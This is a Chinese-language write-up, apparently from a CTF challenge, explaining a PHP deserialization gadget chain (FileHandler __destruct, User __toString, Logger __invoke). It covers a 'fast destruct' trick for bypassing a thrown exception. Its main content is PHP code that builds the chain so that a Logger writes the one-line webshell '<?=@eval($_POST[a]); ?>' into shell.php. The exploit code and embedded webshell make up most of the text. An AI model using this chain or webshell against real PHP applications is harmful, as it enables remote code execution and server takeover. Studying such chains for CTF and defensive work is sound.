 由此一来，我们的链子就出来了。

![image](../../../../images/2106b17ae1ded8b9ab7ea93e8e10c2e2.svg)

     destruct             toString        invoke

木马的内容不能出现 <?php，很简单，直接用 <?= 代替即可。

注意反序列化后有个 throw new Exception("Test!"); 这玩意需要绕一下，否则无法触发 FileHandler 类的 __destruct 魔术方法，这里可以用 fast destruct，把生成的 payload 的最后一个大括号去掉即可。

```php
<?php
error_reporting(0);
class FileHandler {
    private $fileHandle='111';
    private $fileName;
    public function SetFileName($fileName){
        $this->fileName = $fileName;
    }
    public function __destruct() {
        if (file_exists($this->fileName) &&!empty($this->fileHandle)) {
            fclose($this->fileHandle);
            echo "File closed: {$this->fileName}\n";
        }
    }
}
class User {
    private $userData = [];
    public function setUserData($userData){
        $this->userData = $userData;
    }
    public function __toString() {
        if(is_string($this->params) && is_array($this->data) && count($this->data) > 1){
            call_user_func($this->data,$this->params);
        }
        return "Hello";
    }
}
class Logger {
    private $logFile;
    private $lastEntry;
    public function __construct($logFile = 'shell.php') {
        $this->logFile = $logFile;
    }
    private function log($level, $message) {
        $this->lastEntry = "[" . date("Y-m-d H:i:s") . "] [$level] $message" . PHP_EOL;

        file_put_contents($this->logFile, $this->lastEntry, FILE_APPEND);
    }
    public function __invoke($message, $level = 'INFO') {
        $this->log($level, $message);
    }
}
$user = new User();
$logger = new Logger();
$temp = array(
    'data' => array($logger,'info'),
    'params' => '<?=@eval($_POST[a]); ?>'
);
$user->setUserData($temp);
$filehandler = new FileHandler();
$filehandler->SetFileName($user);
```